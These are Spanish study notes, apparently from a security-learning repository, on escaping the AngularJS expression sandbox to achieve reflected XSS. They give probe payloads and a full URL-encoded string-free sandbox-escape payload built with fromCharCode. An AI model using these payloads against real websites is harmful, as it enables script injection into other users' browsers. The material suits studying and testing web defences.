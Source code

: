 # Escape de sandbox Angular JS sin cadenas 

Tags: #XSS #AngularJS #JavaScript #XSS-Reflected 

* [Angular Portswigger Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

```javascript 
// Angular permitía {{user.name}} -> HTML (sandbox)
-> window, document, Function, eval, etc...
-> __proto__, constructor
-> propiedades accesibles

// Para qué sirve?
1. Evitar inyecciones de codigo en plantillas 
2. Proteger al usuario de ejecuciones mal intencionadas de código
3. Mantener aislado el scope para que no escape al entorno global 
```

```javascript 
- Verificar si el campo es inyectable:

	<script>alert(0)</script>
	<h1>Hi</h1>
	<marquee>Hi</marquee>
	<img src=0 onerror=alert(0)>
```

```javascript 
// Identificar la versión de Angula JS. Esto puede ser desde la consola de la web o con Wappalyzer
❯ angular.version.full 

	test&1+1
	test&1%2b1
		'+' = %2b urlencodeado

	test&toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)

	test&toString().constructor.prototype.charAt%3d[].join; [1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
		'=' = %3d urlencodeado
		120 61 97 108 101 114 116 40 49 41 = 'x=alert(1)'

Notas:
	1. Si se quiere colocar directamente un {{alert(0)}}, Angular JS lo bloquea para evitar XSS
	2. Los numeros estan en decimal, por lo que si se quiere saber o escribir se deben de convertir a ASCII
	3. '$Parce' es quien evalua las expresiones 
```